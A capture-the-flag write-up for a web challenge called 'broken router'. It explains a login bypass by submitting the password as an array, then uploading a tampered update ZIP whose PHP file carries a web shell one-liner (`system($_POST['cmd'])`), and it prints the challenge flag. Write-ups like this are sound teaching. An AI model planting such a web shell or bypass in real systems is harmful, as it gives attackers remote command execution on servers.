







# broken router (Web - 150)
  
The challenge give us the target website: `10.3.204.206`  

  
We found that the login function can be bypassed by submitting the array variable instead of normal variable (please see the variable `password`)  

  
After logged in, we found the form to upload the ZIP file, and the example ZIP file is provided also

  
The example ZIP can be download [here](1.1.zip)  
  
After extracting the ZIP file, we got 1 PHP file, and 1 TXT file.  
The content of the PHP file is shown below:  
```
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Broken Router</title>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
    <link rel="stylesheet" href="/css/bootstrap.min.css" type="text/css" media="screen" />
</head>
<body>
    <div class="container">
        <div class="card mt-5">
            <div class="card-header h4 text-center">Update Result</div>
            <div class="card-body">
                <div>
                    <span class="h4"><?php echo('Version: 1.1 updated!'); ?></span>
                </div>
            </div>
        </div>
    </div>
</body>
</html>
```
Next, we inserted the PHP shell command (`<?php system($_POST['cmd']); ?>`) into the PHP file. And compress both PHP and TXT file again, then upload to the server.  

  
Click "Check update result".  

  
Try to run the PHP command `ls`.

  
Now we saw the file on the server included `flag.php`.  
Last step is read the flag with `cat` command.  

  
The flag is flag{94550b955569733446ebf2105ed54e9c22276d912befab7a4c}.
